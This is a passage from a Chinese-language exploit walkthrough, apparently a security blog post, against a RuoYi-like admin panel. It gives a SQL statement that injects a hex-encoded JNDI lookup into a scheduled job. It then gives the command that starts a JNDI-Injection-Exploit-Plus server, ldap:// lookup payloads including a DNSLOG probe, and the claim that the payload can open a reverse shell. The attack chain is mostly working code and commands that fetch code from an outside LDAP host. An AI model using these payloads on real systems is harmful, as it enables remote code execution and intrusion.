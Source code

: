   
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicP4PoyicuOYibat8X2atMIrGzjt9NqSVzyl7mOXS4I4cakhLC3vloBjAA/640?wx_fmt=png&from=appmsg "")  
  
第三步：  

```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3132372e302e302e313a313338392f646573657269616c4a61636b736f6e2729 WHERE job_id = 1;')

```

  
创建任务  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3Ndvoicp84VbdDFJCa4SsegUGvUvs09ZlBPyXofPxKsGeZhB28RsEzU3upORg/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
  
执行一次  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicvzpBlR9rHZJeBiaBjo7FTNHNTjr0PL13ia10yChNk7V0HM39MCEWiaNIg/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
  
执行被修改的任务之前需要开启JNDI  
需要下载cckuailong师傅的JNDI-Injection-Exploit-Plus项目(https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/releases/tag/2.3)。  
jdk版本要求1.8  

```
java -jar '.\JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar' -C calc -A 127.0.0.1

```

  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3Ndvoicib94HORgaVAmJibTvrcwaiaplxqIkcLP4eTHRkaOqbVAmJSiaWvFEaxyicw/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
  
执行被修改的1任务  
JNDI  

```
javax.naming.InitialContext.lookup('ldap://127.0.0.1:1389/deserialJackson')

```

  
payload中可以执行反弹shell、漏洞探测、命令执行功能  
DNSLOG  

```
javax.naming.InitialContext.lookup('ldap://dnslog')

```
